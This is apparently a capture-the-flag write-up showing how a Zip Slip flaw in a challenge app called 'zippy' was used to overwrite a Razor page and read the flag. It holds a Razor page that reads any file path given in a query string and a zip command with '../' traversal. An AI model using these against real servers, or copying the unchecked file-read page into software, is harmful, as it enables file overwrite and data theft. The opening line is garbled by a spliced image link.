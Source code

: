 > I searche![alt text](zippy-web.png)lnerability** and found a guide online https://infosecwriteups.com/zip-slip-vulnerability-064d46ca42e5


I used this vulnerability to change the code of the `Browse.cshtml` Razor page that allowed me to view the contents of files in the server. 

1. Create (Generate using ChatGPT) a `Browse.cshtml` that expects `file` query parameter that outputs the file passed as argument.
```cs
@page
@{
    // Get the file name from the query parameter
    var fileName = Request.Query["file"].ToString();
    var filePath = $"/app/{fileName}"; 
    string fileContent;

    // Check if the file exists and read its content
    if (System.IO.File.Exists(filePath))
    {
        fileContent = System.IO.File.ReadAllText(filePath);
    }
    else
    {
        fileContent = "The specified file does not exist.";
    }
}
<h1>Browse File Content</h1>
<p>@fileContent</p>
```


2. Create malicious `browse.zip` that will replace the application `/app/Pages/Browse.cshtml`

```bash
zip browse.zip ../../../Pages/Browse.cshtml
```

3. Upload the malicious zip file. 

4. Visit the `/Browse` endpoint and notice the page is replaced with our malicious cshtml file. We can get the flag via`?file=flag.txt`



![alt text](_attachments/zippy-flagg.png)

--- 
